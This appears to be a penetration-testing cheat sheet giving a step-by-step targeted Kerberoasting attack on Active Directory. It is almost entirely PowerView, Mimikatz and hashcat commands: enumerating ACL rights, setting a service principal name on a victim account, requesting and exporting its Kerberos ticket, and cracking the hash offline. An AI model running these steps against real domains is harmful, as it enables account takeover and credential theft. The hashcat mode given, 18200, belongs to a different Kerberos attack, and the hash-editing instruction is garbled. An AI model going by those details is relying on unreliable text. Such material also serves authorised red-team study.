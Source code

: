 # 🟢 Set SPN

### **Enumerate permissions for the group on ACL**

{% code overflow="wrap" %}
```
Invoke-ACLScanner -ResolveGUIDS | Where-Object {$_.IdentityReference -match “<groupname>”}
Invoke-ACLScanner -ResolveGUIDS | Where-Object {$_.IdentityReference -match “<groupname>”} | select IdentityReference, ObjectDN, ActiveDirectoryRights | fl
```
{% endcode %}

### **Check if the user has SPN**

```
. ./Powerview_dev.ps1
Get-DomainUser -Identity <username> | select samaccountname, serviceprincipalname
```

of

```
Get-NetUser | Where-Object {$_.servicePrincipalName}
```

### **Set SPN for the user**

```
. ./PowerView_dev.ps1
Set-DomainObject -Identity <username> -Set @{serviceprincipalname=’ops/whatever1’}
```

### **Request a TGS**

{% code overflow="wrap" %}
```
Add-Type -AssemblyName System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ops/whatever1"
```
{% endcode %}

### **Export ticket to disk for offline cracking**

```
Invoke-Mimikatz -Command '"Kerberos::list /export"'
```

### **Request TGS hash for offline cracking hashcat**

{% code overflow="wrap" %}
```
Get-DomainUser -Identity <username> | Get-DomainSPNTicket | select -ExpandProperty Hash
```
{% endcode %}

### **Crack the hash with hashcat**

Edit the hash by inserting '23' after the kerbrs

```
Hashcat -a 0 -m 18200 hash.txt rockyou.txt
```
